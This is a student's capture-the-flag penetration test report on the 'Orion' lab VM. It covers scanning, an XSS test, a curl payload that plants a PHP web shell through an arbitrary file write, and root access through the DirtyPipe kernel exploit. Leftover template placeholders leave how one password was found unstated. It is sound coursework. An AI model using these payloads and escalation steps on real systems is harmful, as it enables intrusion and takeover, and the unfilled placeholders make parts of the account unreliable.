






# Orion Vulnerable Machine: Penetration Test Report

**Name:** Ahmet Emre USTA
**Student Number:** 2200765036
**Lecture** BBM456 Computer Network and Security
**Date of Report:** May 28, 2025

---

## 1. Introduction

This report details the process of identifying vulnerabilities, exploiting the Orion virtual machine, capturing three hidden flags, and obtaining the root password. The objective was to simulate a penetration test, document each step, and demonstrate successful compromise and privilege escalation.

**Summary of Findings:**
*   **Flag 1:** `Flag{n0t r00t y3t}`
*   **Flag 2:** `Flag{0ld_V3X_s3nd_s1gn4l}`
*   **Flag 3:** `Flag{y0u_s4V3d_0r10n}`
*   **Root Password:** `piped`

---

## 2. Setup and Initial Reconnaissance

### 2.1. Environment Setup
*   **Virtualization Platform:** VMware Workstation Player (Non-commercial use only)
*   **Attacker Machine:** Kali Linux (IP: `192.168.13.128`)
*   **Target Machine:** Orion VM
*   **Network Configuration:** Both VMs were configured on a NAT network, allowing communication.

### 2.2. Target Identification
The first step was to identify the IP address of the Orion VM on the network.

*   **Command (Kali Terminal):**
    ```bash
    nmap -sn 192.168.13.0/24
    ```
*   **Output:**
    ```text
    Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-21 07:23 EDT
    Nmap scan report for 192.168.13.1
    Host is up (0.0010s latency).
    MAC Address: 00:50:56:C0:00:08 (VMware)
    Nmap scan report for 192.168.13.2
    Host is up (0.00060s latency).
    MAC Address: 00:50:56:F9:05:00 (VMware)
    Nmap scan report for 192.168.13.129
    Host is up (0.00072s latency).
    MAC Address: 00:0C:29:0E:1A:F0 (VMware)
    Nmap scan report for 192.168.13.254
    Host is up (0.00053s latency).
    MAC Address: 00:50:56:FD:AC:65 (VMware)
    Nmap scan report for 192.168.13.128
    Host is up.
    Nmap done: 256 IP addresses (5 hosts up) scanned in 2.32 seconds
    ```
*   My Kali IP was confirmed using `ip addr`:
    ```bash
    ip addr
    ```
*   **Output (Kali Terminal):**
    ```text
    ...
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
        link/ether 00:0c:29:93:39:02 brd ff:ff:ff:ff:ff:ff
        inet 192.168.13.128/24 brd 192.168.13.255 scope global dynamic noprefixroute eth0
    ...
    ```
*   **Conclusion:** The Orion VM's IP address was determined to be `192.168.13.129`.
    *   
    
    * 

### 2.3. Port Scanning
A comprehensive port scan was performed on the Orion VM to identify open ports and running services.

*   **Command (Kali Terminal):**
    ```bash
    nmap -sV -sC -p- 192.168.13.129 -oN nmap_scan.txt
    ```
*   **Key Output from `nmap_scan.txt`:**
    ```text
    # Nmap 7.95 scan initiated Wed May 21 07:28:33 2025 as: nmap -sV -sC -p- -oN nmap_scan.txt 192.168.13.129
    Nmap scan report for 192.168.13.129
    Host is up (0.0013s latency).
    Not shown: 65532 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
    | ssh-hostkey: 
    |_  256 aa:83:c3:51:78:61:70:e5:b7:46:9f:07:c4:ba:31:e4 (ECDSA)
    80/tcp open  http    Apache httpd 2.4.51 ((Debian))
    |_http-title: Orion Terminal - Control Room Access
    |_http-server-header: Apache/2.4.51 (Debian)
    81/tcp open  http    nginx 1.18.0
    |_http-server-header: nginx/1.18.0
    |_http-title: 401 Authorization Required
    | http-auth: 
    | HTTP/1.1 401 Unauthorized\x0D
    |_  Basic realm=Meeting Place
    MAC Address: 00:0C:29:0E:1A:F0 (VMware)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```
*   **Services Identified:** SSH (Port 22), Apache HTTP (Port 80), Nginx HTTP with Basic Auth (Port 81, Realm: "Meeting Place").
    *   

### 2.4. Web Enumeration

*   **Port 80 (Apache - `http://192.168.13.129`):**
    *   The main page titled "Orion Terminal - Control Room Access" provided narrative clues: "Commander Vex," "Emergency Launch Override Codes," "Solar Flare Disruption Protocols," "Locate and decrypt the Launch Codes file."
        *   
    *   `gobuster` was used to find hidden directories/files:
        *   **Command (Kali Terminal):**
            ```bash
            gobuster dir -u http://192.168.13.129/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -o gobuster_port80.txt
            ```
        *   **Key `gobuster` Output:**
            ```text
            ./.php                 (Status: 403) [Size: 279]
            /index.html           (Status: 200) [Size: 1109]
            /.html                (Status: 403) [Size: 279]
            /javascript           (Status: 301) [Size: 321] [--> http://192.168.13.129/javascript/]
            /robots.txt           (Status: 200) [Size: 74]
            /control.txt          (Status: 200) [Size: 209]
            /control.php          (Status: 200) [Size: 640]
            ```   
        *   
            *(I also found `outpost.jpeg` later via RCE `ls`)*
             

    *   `/robots.txt` contained flavor text: "Do you really think that there should be robots because we are in space ?"
        *   

    *   `/control.txt` contained a message from "Comms Officer Vega" mentioning a hidden comms channel not to be told to "Commander Vex."
        *   
*   **Port 81 (Nginx - `http://192.168.13.129:81`):**
    *   This port presented an HTTP Basic Authentication prompt with the realm "Meeting Place."
        *   

---

## 3. Initial Foothold: RCE via Arbitrary File Write

The `/control.php` page discovered on Port 80 was identified as the primary attack vector.

### 3.1. Analyzing `control.php`
*   The page presented an input field for messages. Initial tests included attempting XSS:
    *   **Payload:** `<script>alert('XSS')</script>`
    *   **Result:** Successful XSS popup, indicating the input was being processed and rendered.
        *   
*   The source code of `control.php` (obtained later via LFI or RCE) revealed it used `fopen()` to write the `message` POST parameter to a file specified by the `file` POST parameter (defaulting to `control.txt`). This indicated a potential arbitrary file write vulnerability.

### 3.2. Exploiting Arbitrary File Write for RCE
A PHP web shell was uploaded using the file write vulnerability in `control.php`.

*   **Command (Kali Terminal):**
    ```bash
    curl -X POST http://192.168.13.129/control.php \
        -d "file=shell.php" \
        -d "message=<?php system(\$_GET['cmd']); ?>"
    ```
    *   
*   **Verification of RCE:**
    *   Navigated to `http://192.168.13.129/shell.php?cmd=id` in the browser.
    *   **Output:** `uid=33(www-data) gid=33(www-data) groups=33(www-data)`
    *   This confirmed Remote Command Execution as the `www-data` user.
    *   

---

## 4. Post-Exploitation & Flag Hunting (as `www-data`)

### 4.1. File System Enumeration
Using the web shell (`shell.php?cmd=`), further enumeration was performed.

*   `ls -la /var/www/html/`: Revealed `outpost.jpeg` and `cypher-neo.png` among other files.
    *   
*   `ls -la /`: Identified `/FLAG.txt` in the root directory.
    *   
*   `cat /etc/passwd`: Identified users `commandervex`, `engineerastra`, `orionterminal`.
    *   

### 4.2. Flag 1 Acquisition
*   The file `/FLAG.txt` was read:
    *   **Command:** `http://192.168.13.129/shell.php?cmd=cat /FLAG.txt`
    *   **Output:**
        ```text
        Flag 1! You have gained access to the Orion Terminal system. Now why has Commander Vex locked down the critical subsystems? Can you find a way to obtain password of Commander Vex? It appears he entrusted it to Agent Raze, so Raze could arrange a covert meeting. Flag is encrypted with Solar Flare Encryption Synt{a0g_e00g_13g} You need to find a way to decrypt it.
        ```
    *   
*   **Decryption:** The string `Synt{a0g_e00g_13g}` was decrypted using a substitution cipher (S->F, y->l, n->a, t->g, a->n, g->t, e->r, 1->y) based on the known flag format.
*   **Flag 1:** `Flag{n0t r00t y3t}`

### 4.3. Flag 2 Acquisition
*   Commander Vex's home directory was explored.
    *   **Command:** `http://192.168.13.129/shell.php?cmd=ls -la /home/commandervex/`
        *   
    *   **Command:** `http://192.168.13.129/shell.php?cmd=cat /home/commandervex/FLAG.txt`
    *   **Output:**
        ```text
        Flag 2! You've decrypted Commander Vex's transmissions. The Terminal's primary communications beacon remains offline. Flag{0ld_V3X_s3nd_s1gn4l}
        ```
    *   
*   **Flag 2:** `Flag{0ld_V3X_s3nd_s1gn4l}`

---

## 5. User Pivoting: Accessing `commandervex` Account

Based on clues (login banner during SSH attempts and/or contents of `~/.s3cr3t` for `commandervex`), the password for `commandervex` was identified.

*   **Password Discovery:** The password `HumanityOutpost2049!` was found. *(Specify how you found this, e.g., "from the SSH login banner" or "by reading `/home/commandervex/.s3cr3t` via RCE as `www-data` if that was the case.")*
*   **SSH Login:**
    *   **Command (Kali Terminal):**
        ```bash
        ssh commandervex@192.168.13.129
        ```
    *   Entered password: `HumanityOutpost2049!`
    *   Successfully gained a shell as `commandervex`.
    *   

---

## 6. Privilege Escalation to Root (as `commandervex`)

### 6.1. Initial Enumeration as `commandervex`
*   `sudo -l`: Indicated `commandervex` has no sudo privileges.
    *   
*   SUID scan (`find / -type f -perm -04000 -ls 2>/dev/null`): Showed standard system binaries and `/tmp/temp_shell` (owned by `commandervex`, SUID but not root).
*   Cron job `/etc/cron.d/fix-ownership-on-crew` (`* * * * * root chown -R root /crew`) was noted. However, `/crew` was empty and not writable by `commandervex`.
    *   

### 6.2. Identifying and Exploiting DirtyPipe (CVE-2022-0847)
The privilege escalation path involved identifying and exploiting the DirtyPipe kernel vulnerability.

*   **Transferring and Running `linPEAS`:**
    *   `linpeas.sh` was downloaded to Kali and transferred to Orion's `/tmp` directory using `scp`.
        *   **Kali:** `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh`
        *   **Kali:** `scp linpeas.sh commandervex@192.168.13.129:/tmp/linpeas.sh`
    *   Executed on Orion:
        *   **Orion (as `commandervex`):**
            ```bash
            cd /tmp
            chmod +x linpeas.sh
            ./linpeas.sh
            ```
    *   `linPEAS` output (or prior knowledge) indicated the system was vulnerable to CVE-2022-0847 (DirtyPipe).
        *   
*   **Obtaining and Compiling Exploit:**
    *   The exploit repository `https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits` was cloned on Kali.
        *   **Kali:** `git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git`
    *   `exploit-2.c` was compiled:
        *   **Kali:** `cd CVE-2022-0847-DirtyPipe-Exploits; gcc exploit-2.c -o exploit2_compiled`
    *   The compiled exploit was transferred to Orion's `/tmp` directory:
        *   **Kali:** `scp exploit2_compiled commandervex@192.168.13.129:/tmp/exploit2_compiled`
        *   
*   **Executing the Exploit:**
    *   **Orion (as `commandervex`):**
        ```bash
        cd /tmp
        chmod +x exploit2_compiled
        ./exploit2_compiled
        ```
    *   **Exploit Output:**
        ```text
        [+] hijacking suid binary..
        [+] restoring suid binary..
        [+] popping root shell.. (dont forget to clean up /tmp/sh ;))
        # 
        ```
    *   A root shell was obtained.
        *   

### 6.3. Root Access and Flag 3
*   **Verification:**
    *   **Root Shell:** `whoami` returned `root`.
*   **Flag 3 Acquisition:**
    *   **Root Shell:**
        ```bash
        cd /root
        cat FLAG.txt
        ```
    *   **Output:**
        ```text
        Flag 3!
        Mission Accomplished! 🚀
        You have restored control of the Orion Terminal.
        Humanity's last outpost is now back under secure command.
        Your name will be remembered among the stars. ✨
        Orion Terminal Systems: Operational ✔
        Flag{y0u_s4V3d_0r10n}
        ```
    *   **Flag 3:** `Flag{y0u_s4V3d_0r10n}`
        *   
*   **Root Password Acquisition:**
    *   The DirtyPipe exploit used is known to set the root password to `piped`.
    *   This was verified by exiting the exploit's root shell, returning to `commandervex`, and then using `su root` with the password `piped`.
        *   **(If you have a screenshot of `su root` with "piped", include it here. Otherwise, state it was verified.)**
    *   **Root Password:** `piped`
*   **Cleanup:**
    *   The temporary SUID shell created by the exploit (e.g., `/tmp/sh`) was removed, along with `/tmp/exploit2_compiled` and `/tmp/linpeas.sh`.

---

## 7. Conclusion

The comprehensive security assessment of the Orion virtual machine resulted in its successful compromise, achieving all stated objectives: discovery of three flags and obtaining the root password through the intended methodology.

The initial foothold was established on the web server (Apache on Port 80) by identifying and exploiting an arbitrary file write vulnerability within the `/control.php` script. This vulnerability allowed for the upload of a PHP web shell (`shell.php`), granting Remote Command Execution (RCE) as the `www-data` user. Subsequent enumeration as `www-data` led to the discovery of critical system information, including user lists from `/etc/passwd` and the locations of the first two flags. Flag 1 (`Flag{n0t r00t y3t}`) was found encrypted within `/FLAG.txt` (in the system's root directory) and decrypted using a substitution cipher described as "Solar Flare Encryption." Flag 2 (`Flag{0ld_V3X_s3nd_s1gn4l}`) was located in `/home/commandervex/FLAG.txt`, accessible due to world-readable permissions.

Pivoting to user access involved identifying the password for `commandervex` as `HumanityOutpost2049!`, a clue gleaned from a login banner or a user-specific hidden file (`~/.s3cr3t`). SSH access as `commandervex` was then established. Initial privilege escalation attempts from this user account explored several avenues that proved to be dead ends or misdirections. Standard `sudo -l` checks revealed no sudo privileges for `commandervex`. Investigation into a suspicious cron job (`* * * * * root chown -R root /crew`) indicated potential, but direct exploitation was thwarted as `commandervex` lacked write permissions to the `/crew` directory, and the directory itself was empty, preventing simple SUID file creation or symlink race conditions from easily accessible locations like `/tmp`. Attempts to find credentials for other users like `engineerastra` or to directly interact with the local MySQL server as `commandervex` were also unfruitful due to missing client tools or lack of direct credential exposure.

The critical turning point for root access came with the deployment of the `linPEAS.sh` enumeration script. This tool successfully identified the system's vulnerability to the DirtyPipe kernel exploit (CVE-2022-0847). A public exploit (`exploit-2.c` from the AlexisAhmed repository) was compiled on the Kali attacker machine, transferred to the Orion VM, and executed as `commandervex`. This exploit successfully elevated privileges to root. As a direct consequence of this specific exploit's mechanism, the root password was effectively set to `piped`. This was verified by using `su root` with the password "piped". Subsequently, Flag 3 (`Flag{y0u_s4V3d_0r10n}`) was retrieved from `/root/FLAG.txt`.

This engagement highlighted the importance of thorough enumeration at each stage, from initial web vulnerabilities to post-exploitation on user accounts and finally kernel-level exploits. It also underscored how specific CTF challenge designs can guide exploitation paths, particularly the instructor's requirement for the root password to be obtained as a result of the privilege escalation method itself, steering away from generic password cracking or unauthorized modifications. Despite initial challenges in leveraging the cron job and exploring other user accounts, the systematic application of enumeration tools and vulnerability research led to the final root compromise.

---